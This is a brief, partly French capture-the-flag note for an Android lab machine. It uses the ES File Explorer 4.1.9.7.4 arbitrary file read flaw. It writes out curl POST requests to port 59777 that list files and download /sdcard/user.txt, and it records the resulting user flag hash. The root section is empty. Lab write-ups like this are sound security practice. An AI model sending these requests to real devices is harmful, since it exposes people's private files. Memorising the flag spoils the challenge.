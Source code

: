 #android

#ip  10.10.10.247

Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read

flag user : 

 curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777/

ou

curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://10.10.10.247:59777/sdcard/  

puis 

 curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"getFiles\"}" http://10.10.10.247:59777/sdcard/user.txt

ou

curl --header "Content-Type: application/json" --request POST --data '{"command":"getFiles"}' http://10.10.10.247:59777/sdcard/user.txt  

hash :  f32017174c7c7e8f50c6da52891ae250

flag root :